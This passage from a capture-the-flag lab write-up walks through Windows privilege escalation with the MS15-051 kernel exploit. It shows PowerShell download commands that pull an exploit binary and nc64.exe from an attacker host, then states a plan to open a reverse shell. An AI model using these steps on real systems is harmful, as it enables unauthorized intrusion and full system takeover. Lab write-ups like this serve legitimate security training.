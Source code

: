 ## MS15-051 UPLOAD

From `sherlork` we can then upload an `Ms15-051` exe so that we can execute the exploit.so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.9:8000/Ms15.exe','Ms15.exe')"
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/MS15.png)

Then when we execute it with `whoami` we get that we can execute `NT\Authority`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/whoami.png)

isnce we can execute some command using that we need a permanet shell that is easy to use so what we can do is to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) so we upload the `nc64.exe` so that by using it we can be able to get a root privillage.

```sh
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.9:8000/nc64.exe','nc64.exe')"
```
